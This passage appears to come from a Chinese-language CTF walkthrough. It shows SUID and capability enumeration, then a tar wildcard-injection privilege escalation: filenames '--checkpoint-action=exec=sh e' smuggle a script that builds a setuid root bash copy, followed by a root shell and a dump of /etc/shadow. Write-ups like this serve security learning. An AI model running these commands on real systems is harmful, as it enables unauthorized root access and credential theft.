     4589     44 -rwsr-xr-x   1 root     root               44760 May 30  2024 /usr/bin/chsh
    13682     40 -rwsr-xr-x   1 root     root               39296 Apr  8  2024 /usr/bin/fusermount3
     8197     56 -rwsr-xr-x   1 root     root               55680 Mar  6  2026 /usr/bin/su
     9150     52 -rwsr-xr-x   1 root     root               51584 Mar  6  2026 /usr/bin/mount
    ...
    ```

    *Cap*: 没啥有趣的
    ```sh
    webdev@coldstart:~$ getcap -r / 2>/dev/null
    /snap/core20/2379/usr/bin/ping cap_net_raw=ep
    /snap/core20/2866/usr/bin/ping cap_net_raw=ep
    /snap/core22/2411/usr/bin/ping cap_net_raw=ep
    /snap/core22/1621/usr/bin/ping cap_net_raw=ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
    /usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin,cap_sys_resource=p
    /usr/bin/mtr-packet cap_net_raw=ep
    /usr/bin/ping cap_net_raw=ep
    ```
:::

## Wildcard inject
回顾枚举
1. `voltlabs-backup` 使用通配符 `*` 从 `/var/backups/` 归档文件
2. `webdev` 对该目录有写入权限

SHELL 有一个特性: ==其会在命令执行前展开通配符并解析其中内容=={.tip}.

这意味着, 如果文件名是合法的参数, 其会被注入到执行的命令中.

根据 [GTFOBINS](https://gtfobins.org/gtfobins/tar/) 上方案操作
```sh
webdev@coldstart:/tmp$ cat >> e << 'eof'
> cp /bin/bash /tmp/stackcat
> chown root:root /tmp/stackcat
> chmod +x /tmp/stackcat
> chmod +s /tmp/stackcat
> eof
webdev@coldstart:/opt/backups$ cp /tmp/e .
webdev@coldstart:/opt/backups$ touch -- '--checkpoint=1'
webdev@coldstart:/opt/backups$ touch -- '--checkpoint-action=exec=sh e'
```

等待, 并执行:
```sh
webdev@coldstart:/opt/backups$ ls  /tmp
e                 systemd-private-4c9d448e83ec49f2aae95fc02501cbd7-polkit.service-kSS5AU            systemd-private-4c9d448e83ec49f2aae95fc02501cbd7-systemd-timesyncd.service-FeXrbn
snap-private-tmp  systemd-private-4c9d448e83ec49f2aae95fc02501cbd7-systemd-logind.service-RBN5Xu    systemd-private-4c9d448e83ec49f2aae95fc02501cbd7-voltlabs-preview.service-6sTw3J
stackcat          systemd-private-4c9d448e83ec49f2aae95fc02501cbd7-systemd-resolved.service-aICSda  test
webdev@coldstart:/opt/backups$ ls -lah /tmp/stackcat
-rwsr-sr-x 1 root root 1.4M Sep 13 03:03 /tmp/stackcat
webdev@coldstart:/opt/backups$ /tmp/stackcat -p
```

# root3d!
```sh
stackcat-5.2# whoami
root
stackcat-5.2# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: ens5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 0a:ff:dd:e8:6a:fd brd ff:ff:ff:ff:ff:ff
    altname enp0s5
    inet 10.64.188.6/18 metric 100 brd 10.64.191.255 scope global dynamic ens5
       valid_lft 3457sec preferred_lft 3457sec
    inet6 fe80::8ff:ddff:fee8:6afd/64 scope link 
       valid_lft forever preferred_lft forever
stackcat-5.2# cat /etc/shadow
...
webdev:$y$j9T$jVc1oZAN6/ESoWnIZA/dZ/$Oc1/KMV/I/dzYnJgFaLSO.ikpjRJAogaQjd0SRr2GE/:20582:0:99999:7:::
```
